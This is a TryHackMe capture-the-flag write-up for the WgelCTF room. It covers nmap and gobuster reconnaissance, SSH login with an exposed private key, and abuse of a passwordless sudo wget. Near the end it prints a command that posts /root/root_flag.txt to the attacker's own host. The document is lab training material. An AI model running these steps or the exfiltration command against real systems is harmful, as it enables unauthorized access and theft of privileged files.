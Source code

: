# TryHackMe-WgelCTF-ctf-writeup

I will use $MY_IP as placeholder for the IP assigned to my machine in the thm VPN, and $MACHINE_IP as placeholder for the "victim host".

I start with default nmap (ran as root, so it would be a syn scan)

`nmap -A $MACHINE_IP -oN nmap_syn_def`

wich reveals me two open ports: 22 (ssh) and 80 (apache).

Browsing $MACHINE_IP I see the classic welcome page. I will launch gobuster 

`gobuster dir -x php -u $MACHINE_IP -w /usr/share/dirb/wordlists/common.txt`

I see some usual stuff along with "sitemap" folder. I browse it, it is some sort of blog, while looking trough its pages I will launch gobuster again starting from this path

`gobuster dir -x php -u $MACHINE_IP/sitemap -w /usr/share/dirb/wordlists/common.txt`

Around pages I don't see nothing useful but a form meant to "leave comments" wich seems not to be injectable.

The second gobuster scan reveals the path /sitemap/.ssh, browsing it I'm able to see a file "id_rsa" wich I download and set te right permissions to it

`chmod 600 id_rsa`

It could be server's root private key so I immediately give a shot:

`ssh -i id_rsa $MACHINE_IP`

It asks for root's password so it's noot root's private key. Around pages I also found some name wich I try to use the rsa key with with no results.

Finally, after looking at every pages source code, I find the username "jessie" in the apache welcome page.

`ssh -i id_rsa jessie@MACHINE_IP`

I'm in and I find the first flag under /home/jessie/Documents.

Next step is to retrieve's "user flag" which I suppose is in /root. 

I check jessie's sudo permissions:

`sudo -l`

and i find that I can run "wget" as root without being asked for a password, cool.

I set up a simple python server (here's the code https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) for handle POST requests and tried to send me (guessing the name from the other flag) the file /root/root_flag.txt

`wget --post-file=/root/root_flag.txt http://$MY_IP`

it was the right name and the file contained the last flag.
